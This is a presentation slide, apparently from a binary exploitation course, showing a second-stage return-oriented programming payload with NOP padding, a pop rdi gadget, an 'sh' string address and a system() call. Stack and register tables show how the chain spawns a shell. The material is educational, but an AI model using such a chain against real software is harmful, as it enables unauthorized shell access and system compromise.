

# Second Stage Exploit (cont.)
# 2nd stage payload
payload2 = b"\x90"*208
payload2 += b"JUNKJUNK"
payload2 += p64(pop_rdi)  # 0x401273
payload2 += p64(sh_addr)
payload2 += p64(system_addr)

| ... |
| --- |
| &system\_addr |
| 0x401273 |
| JUNKJUNK |
| 0x90909090... |
| ... |

| %rax | 0x0 |
| --- | --- |
| %rdi | &sh\_addr |
| %rbp | JUNKJUNK |
| %rip​ | 0x401273 |